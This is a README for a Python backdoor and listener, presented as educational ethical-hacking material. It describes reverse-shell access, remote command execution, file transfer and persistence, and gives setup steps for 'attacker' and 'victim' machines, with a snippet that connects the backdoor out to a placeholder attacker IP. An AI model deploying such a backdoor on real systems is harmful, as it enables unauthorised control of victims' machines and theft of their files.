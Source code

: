 # 🐍 Python Backdoor & Listener Server

This project demonstrates how to create a simple **backdoor** and **server listener** using Python's `socket` and `subprocess` modules. It's built for **educational** and **ethical hacking** purposes, specifically for practicing reverse shell communication, file transfers, and remote command execution.

---

## ⚙️ Features

- Reverse shell from target to attacker
- Remote command execution on target machine
- Upload and download files between machines
- Persistent connection attempts from the backdoor
- JSON-based reliable communication
- Command-line shell interface for interaction

---

## 📁 File Structure

```

.
├── server.py       # Listener/Command control center
├── backdoor.py     # Script to be executed on the target machine
└── README.md

````

---

## 🚀 How to Use

### 1. **On the Attacker's Machine (Server):**

Edit the IP in `server.py` to match your local IP address:
```python
sock.bind(('YOUR-IP-HERE', 5555))
````

Then run:

```bash
python server.py
```

### 2. **On the Victim's Machine (Backdoor):**

Edit the IP in `backdoor.py` to match the server's IP:

```python
s.connect(('YOUR-IP-HERE', 5555))
```

Then run:

```bash
python backdoor.py
```

---

## 🔐 Commands Supported

| Command           | Description                             |
| ----------------- | --------------------------------------- |
| `cd <dir>`        | Change directory                        |
| `upload <file>`   | Upload a file from attacker to victim   |
| `download <file>` | Download a file from victim to attacker |
| `clear`           | Clear the screen (local only)           |
| `quit`            | Close the session                       |
| `<any other>`     | Execute system command on target        |

---

## 🛡️ Ethical Use Disclaimer

This project is strictly for **educational use only**. Do **not** run this code on any machine or network without **explicit permission**. Unauthorized use may be illegal and unethical.

---


